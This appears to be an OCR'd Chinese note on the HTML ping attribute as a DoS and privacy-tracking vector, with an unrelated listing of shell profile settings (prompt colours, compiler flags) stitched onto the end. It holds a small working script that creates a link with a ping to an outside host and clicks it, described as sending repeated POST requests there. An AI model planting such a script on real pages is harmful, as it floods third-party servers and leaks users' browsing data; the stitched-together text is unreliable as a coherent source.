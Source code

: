 -----

* 特性：ping属性
* 环境：发送异步请求，完成一次HTTP重定向，循环发送POST请求，造成DOS攻击；<br>
        PING-FROM、USER-AGENT、REFERER泄漏用户的隐私。
* 漏洞类型：DOS攻击、隐私追踪

-----   

举例：
-----
      <script> 
      var link = document.createElement('a'); 
      link.href=""; 
      link.ping = 'http://www.xisigr.com/'; 
      document.head.appendChild(link); link.click(); 
      </script>       
      运行上面的代码，就会不停的向xisigr.com发送POST请求。
      
 1 export CLICOLOR=1
  2 export LSCOLORS=gxfxcxdxbxegedabagacad
  3 export GREP_OPTIONS='--color=auto'
  4 export PS1='\[\e[01;33m\][\[\e[01;32m\]\u\[\e[01;33m\]@\[\e[01;35m\]\h:\[\e[    01;33m\]] \[\e[01;36m\]\w \[\e[01;32m\]\$ '
  5 export CFLAGS=-Qunused-arguments
  6 export CPPFLAGS=-Qunused-arguments
